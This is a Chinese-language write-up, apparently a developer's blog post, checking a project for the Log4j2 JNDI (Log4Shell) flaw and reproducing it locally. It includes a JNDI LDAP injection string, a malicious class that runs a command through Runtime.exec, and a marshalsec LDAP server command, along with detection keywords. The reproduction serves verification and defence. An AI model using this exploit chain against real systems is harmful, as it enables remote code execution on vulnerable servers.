 # 项目log4j漏洞问题排查
## 1. 自检（项目是否存在log4g漏洞）

**结论：不存在该漏洞**

1. 项目并没有引用到log4g-core
2. 也没有打印会引起该漏洞的关键字或规则

![image-20211222121156841](https://zszblog.oss-cn-beijing.aliyuncs.com/zszblog/blogimage-master/image-20211222121156841.png)

### 1.1 针对漏洞的自定义规则

| 规则         | 使用情况 |
| ------------ | -------- |
| tcp payload  | 未使用   |
| http msgbody | 未使用   |

### 1.2 日志排查关键字

| 关键字                                                       | 使用情况 |
| ------------------------------------------------------------ | -------- |
| Javax. naming Communicationexception                         | 未使用   |
| Javax. naming. Namingexception: problem generating object using object factory | 未使用   |
| Error looking up JNDI resource"关键字进行排查                | 未使用   |
| ${jndi: ladp或 rmi                                           | 未使用   |
| getobjectfactoryfromreferenc Idapurl Context hdil ookup等与jnd调用相关的堆栈信息。 | 未使用   |



## 2. log4j漏洞概述

该漏洞是由于Apache Log4j2某些功能存在递归解析功能，未经身份验证的攻击者通过发送特定恶意数据包，可在目标服务器上执行任意代码。

## 3. 影响范围

Apache Log4j 2.x <= 2.15.0-rc1

## 4. 复现demo

### 4.1 新建maven项目

创建一个新的maven项目，并导入Log4j的依赖包

```xml
 <!--   bug版本log4j-core-2.14.1    -->
<dependency>
            	<groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>
        </dependency>

        <!--   已修复版本log4j-core-2.17.0    -->
<!--        <dependency>-->
<!--            <groupId>org.apache.logging.log4j</groupId>-->
<!--            <artifactId>log4j-core</artifactId>-->
<!--            <version>2.17.0</version>-->
<!--        </dependency>-->
```

### 4.2 漏洞利用

#### **4.2.1 使用POC测试**

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
class LogTest {
    public static final Logger logger = LogManager.getLogger();
    public static void main(String[] args) {
        logger.error("${jndi:ldap://localhost:8888/Exploit}");
    }
}
```

#### 4.2.2 **编译一恶意类Exploit.class**

首先新建exp.java，然后编译为class文件

```java
class Exploit {
    static {
        System.err.println("Pwned");
        try {
            String cmds = "calc";
            Runtime.getRuntime().exec(cmds);
        } catch ( Exception e ) {
            e.printStackTrace();
        }
    }
}
javac exp.java
```

#### 4.2.3 **使用marshalsec-0.0.3-SNAPSHOT-all.jar本地开启一个LDAP服务**

```mipsasm
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer
"http://127.0.0.1:7777/#Exploit" 8888
```

#### 4.2.3 运行poc.java，即可访问恶意类并执行写在其中的"calc"命令

![image-20211222124406317](https://zszblog.oss-cn-beijing.aliyuncs.com/zszblog/blogimage-master/image-20211222124406317.png)

### 4.3 验证测试

#### 4.3.1 bug版本log4j-core-2.14.1

打印的日志会调用jndi

![image-20211222124709509](https://zszblog.oss-cn-beijing.aliyuncs.com/zszblog/blogimage-master/image-20211222124709509.png)

![image-20211222124917358](https://zszblog.oss-cn-beijing.aliyuncs.com/zszblog/blogimage-master/image-20211222124917358.png)

#### 4.3.2 已修复版本log4j-core-2.17.0

已修复版本就变成单纯的打印日志了

![image-20211222124814229](https://zszblog.oss-cn-beijing.aliyuncs.com/zszblog/blogimage-master/image-20211222124814229.png)

## 5. 项目验证

项目在log 中的jdni，并不会执行远程调用

![image-20211222125006483](https://zszblog.oss-cn-beijing.aliyuncs.com/zszblog/blogimage-master/image-20211222125006483.png)

## 参考文章

[手把手复现了 Log4j2 漏洞，太可怕了。。](https://segmentfault.com/a/1190000041117219)

